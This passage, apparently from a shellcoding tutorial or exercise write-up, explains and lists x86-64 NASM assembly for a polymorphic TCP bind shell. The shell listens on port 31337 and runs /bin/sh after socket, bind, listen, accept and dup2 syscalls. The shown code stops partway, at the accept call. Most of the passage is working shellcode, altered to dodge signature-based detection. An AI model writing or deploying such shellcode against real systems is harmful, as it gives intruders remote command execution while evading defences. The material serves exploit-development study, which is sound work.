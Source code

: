 Briefly, the following syscalls are executed: `socket`, `bind`, `listen`, `accept`, `dup2` and `execve`. The important things to note are: the listening port is `31337` and the original string in `execve` is "//bin/sh" that after the shifting becomes "/bin/sh\0".

The polymorphic version (`tcpbindshell.nasm`) is the following:

```nasm
global _start
section .text

_start:
	; socket
	xor rdi, rdi
	xor rsi, rsi
	mul rsi		; clear rax and rdx

	add rdi, 0x2

	add rsi, 0x1

	add rdx, 0x6

	add rax, 0x29
	syscall		; exec socket syscall

	mov r8, rax	; return value

	; bind
	xor r10, r10
	push r10

	mov byte [rsp], 0x2

	mov word [rsp + 0x2], 0x697a	; port 31337

	mov rsi, rsp

	push r8
	pop rdi

	push 0x10
	pop rdx

	push 0x31
	pop rax

	syscall		; exec bind syscall

	; listen
	push r8
	pop rdi

	push 0x32
	pop rax

	syscall		; exec listen syscall

	; accept
	push r8
	pop rdi

	xor rsi, rsi
	mov rdx, rsi

	push 0x2b
```